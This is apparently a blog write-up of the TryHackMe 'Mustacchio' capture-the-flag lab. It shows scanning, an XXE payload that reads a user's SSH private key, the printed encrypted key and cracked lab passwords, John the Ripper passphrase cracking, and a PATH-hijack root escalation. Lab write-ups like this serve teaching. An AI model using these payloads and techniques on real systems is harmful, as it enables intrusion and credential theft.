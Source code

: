 ```yaml
---
layout: post
title: Mustacchio CTF
published: false
---
```


Well hello people. This is a writeup of the Mustacchio CTF from Tryhackme. 
It was rated as a easy level box and it’s a really interesting challenge so 
without further due let’s start the hack.

![]({{site.baseurl}}/images/mustacchio/mustache.png)

Room : [Mustacchio](https://tryhackme.com/room/mustacchio)

## Nmap Scanning

>  nmap -p- IPADDR

We get the following ports open :
```
- 22 ssh
- 80 http
- 8765 ultraseek-http
```

So after scanning we know there is a website running on this machine so lets hope on to it and have a look.

![]({{site.baseurl}}/images/mustacchio/site.png)

## Go Gobuster!!!

> gobuster dir -u http://IPADDR -w /usr/share/wordlists/dirbuster/common.txt

![]({{site.baseurl}}/images/mustacchio/gobuster.png)

After the scan you can see we got some directories. Most of them are dead ends but the `custom` has a .bak file in it. After downloading it we can see that it is some sort of a SQL backup file with some credentials.

![]({{site.baseurl}}/images/mustacchio/bak.png)

After using crackstation to crack the password we get the following credentails :

```
admin
bulldog19
```

Now, lets check the 8765 port 

![]({{site.baseurl}}/images/mustacchio/login-page.png)

We get this login page. Hmm... let try those credential we just found. 

![]({{site.baseurl}}/images/mustacchio/xxe.png)

And we are in! Lets look at the source code.

![]({{site.baseurl}}/images/mustacchio/source.png)

We see these two intersting comments. The 2nd one tells us a username for the SSH login which is Barry. The 1st is looks like a path. After checking the path we get a dontforget.bak file with some XML code written in it.

## XXE

We can try to read the id_rsa file on barry from the machine by attempting binding a payload to the sample XML code we got from the dontforget.bak file

```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa">]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>

  <com>&xxe;</com>
</comment>
```

And we get the id_rsa but we have to format it properly by adding spaces and line breaks otherwise it will give an error while logging it.

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,D137279D69A43E71BB7FCB87FC61D25E

jqDJP+blUr+xMlASYB9t4gFyMl9VugHQJAylGZE6J/b1nG57eGYOM8wdZvVMGrfN
bNJVZXj6VluZMr9uEX8Y4vC2bt2KCBiFg224B61z4XJoiWQ35G/bXs1ZGxXoNIMU
MZdJ7DH1k226qQMtm4q96MZKEQ5ZFa032SohtfDPsoim/7dNapEOujRmw+ruBE65
l2f9wZCfDaEZvxCSyQFDJjBXm07mqfSJ3d59dwhrG9duruu1/alUUvI/jM8bOS2D
Wfyf3nkYXWyD4SPCSTKcy4U9YW26LG7KMFLcWcG0D3l6l1DwyeUBZmc8UAuQFH7E
NsNswVykkr3gswl2BMTqGz1bw/1gOdCj3Byc1LJ6mRWXfD3HSmWcc/8bHfdvVSgQ
ul7A8ROlzvri7/WHlcIA1SfcrFaUj8vfXi53fip9gBbLf6syOo0zDJ4Vvw3ycOie
TH6b6mGFexRiSaE/u3r54vZzL0KHgXtapzb4gDl/yQJo3wqD1FfY7AC12eUc9NdC
rcvG8XcDg+oBQokDnGVSnGmmvmPxIsVTT3027ykzwei3WVlagMBCOO/ekoYeNWlX
bhl1qTtQ6uC1kHjyTHUKNZVB78eDSankoERLyfcda49k/exHZYTmmKKcdjNQ+KNk
4cpvlG9Qp5Fh7uFCDWohE/qELpRKZ4/k6HiA4FS13D59JlvLCKQ6IwOfIRnstYB8
7+YoMkPWHvKjmS/vMX+elcZcvh47KNdNl4kQx65BSTmrUSK8GgGnqIJu2/G1fBk+
T+gWceS51WrxIJuimmjwuFD3S2XZaVXJSdK7ivD3E8KfWjgMx0zXFu4McnCfAWki
ahYmead6WiWHtM98G/hQ6K6yPDO7GDh7BZuMgpND/LbS+vpBPRzXotClXH6Q99I7
LIuQCN5hCb8ZHFD06A+F2aZNpg0G7FsyTwTnACtZLZ61GdxhNi+3tjOVDGQkPVUs
pkh9gqv5+mdZ6LVEqQ31eW2zdtCUfUu4WSzr+AndHPa2lqt90P+wH2iSd4bMSsxg
laXPXdcVJxmwTs+Kl56fRomKD9YdPtD4Uvyr53Ch7CiiJNsFJg4lY2s7WiAlxx9o
vpJLGMtpzhg8AXJFVAtwaRAFPxn54y1FITXX6tivk62yDRjPsXfzwbMNsvGFgvQK
DZkaeK+bBjXrmuqD4EB9K540RuO6d7kiwKNnTVgTspWlVCebMfLIi76SKtxLVpnF
6aak2iJkMIQ9I0bukDOLXMOAoEamlKJT5g+wZCC5aUI6cZG0Mv0XKbSX2DTmhyUF
ckQU/dcZcx9UXoIFhx7DesqroBTR6fEBlqsn7OPlSFj0lAHHCgIsxPawmlvSm3bs
7bdofhlZBjXYdIlZgBAqdq5jBJU8GtFcGyph9cb3f+C3nkmeDZJGRJwxUYeUS9Of
1dVkfWUhH2x9apWRV8pJM/ByDd0kNWa/c//MrGM0+DKkHoAZKfDl3sC0gdRB7kUQ
+Z87nFImxw95dxVvoZXZvoMSb7Ovf27AUhUeeU8ctWselKRmPw56+xhObBoAbRIn
7mxN/N5LlosTefJnlhdIhIDTDMsEwjACA+q686+bREd+drajgk6R9eKgSME7geVD
-----END RSA PRIVATE KEY-----
```


## John The Ripper

Now lets crack the id_rsa as it is requires a passpharse to login

> /opt/johnTheRipper/ssh2John.py id_rsa  hash

> john hash --wordlist=/usr/share/wordlists/rockyou.txt

And we get the passphrase : ``` urieljames```

## Loggin into SSH

After loggin in we get the user flag right away

![]({{site.baseurl}}/images/mustacchio/loginSSH.png)

## Privilege escalation

Lets look for SUIDs to exploit as it is given in the hint

> find / -perm -u=s -type f 2>/dev/null

We get a binary called live_log in joe's directory and luckily we can move into his directory as well.
After using strings on the binary file we see this interesting line

> tail -f /var/log/nginx/access.log

Intresting. Lets use this to gain root. Lets create a file named tail and make it executable and a script to get root. We also have to change the path to our file 

> echo "/bin/bash" > tail

> chmod +x tail

> export PATH=/tmp:$PATH

Now lets run the `live_log` binary.

![]({{site.baseurl}}/images/mustacchio/root.png)

And that's it. We got root. This was a fun box. Though i have to admit i had to take some hints on the way but still it was a great learning experience.



